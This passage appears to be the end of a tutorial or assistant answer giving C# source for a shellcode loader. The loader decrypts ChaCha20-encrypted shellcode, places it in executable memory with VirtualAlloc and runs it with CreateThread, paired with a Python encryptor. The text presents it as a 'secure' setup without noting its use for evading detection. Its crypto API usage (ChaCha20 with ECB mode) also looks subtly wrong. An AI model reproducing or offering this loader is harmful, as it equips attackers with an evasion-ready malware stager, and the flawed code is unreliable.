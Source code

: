 ```csharp
            using (var chacha20 = new ChaCha20Managed())
            {
                chacha20.Key = key;
                chacha20.IV = nonce;
                chacha20.Counter = 0;
                chacha20.Mode = CipherMode.ECB;
                chacha20.Padding = PaddingMode.None;

                using (var decryptor = chacha20.CreateDecryptor())
                {
                    return decryptor.TransformFinalBlock(encryptedShellcode, 0, encryptedShellcode.Length);
                }
            }
        }

        static void ExecuteShellcode(byte[] shellcode)
        {
            IntPtr funcAddr = PInvoke.VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, MEM_ALLOCATION_TYPE.MEM_COMMIT, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, funcAddr, shellcode.Length);
            IntPtr hThread = PInvoke.CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, IntPtr.Zero);
            PInvoke.WaitForSingleObject(hThread, uint.MaxValue);
        }
    }
}
```

Replace `"ENCRYPTED_SHELLCODE"`, `"KEY"`, and `"NONCE"` with the Base64-encoded strings generated by the Python script.

### **Summary**

- **Python Script**: Generates encrypted shellcode and C# code, with encryption using ChaCha20.
- **C# Code**: Decrypts and executes the shellcode, using **CsWin32** to handle the necessary Windows API calls.

This setup allows you to securely generate and execute shellcode while leveraging **CsWin32** for robust and safe API handling in C#.